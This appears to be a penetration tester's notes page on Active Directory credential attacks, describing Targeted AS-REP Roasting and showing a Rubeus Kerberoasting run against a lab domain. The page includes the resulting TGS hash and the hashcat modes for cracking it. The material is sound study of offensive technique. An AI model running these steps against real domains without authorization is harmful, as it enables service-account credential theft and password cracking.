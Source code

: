 Let's assume that we are conducting an assessment in which we cannot identify any AD users with the account option Do not require Kerberos preauthentication enabled. While enumerating, we notice that we have GenericWrite or GenericAll permissions on another AD user account. Using these permissions, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication. This attack is known as Targeted AS-REP Roasting. Notably, we should reset the User Account Control value of the user once we've obtained the hash.

{% embed url="https://adsecurity.org/?p=3658" %}

{% embed url="https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/" %}

## Kerberoasting

### Rubeus

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ cat hashes.kerberoast
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
...

kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
```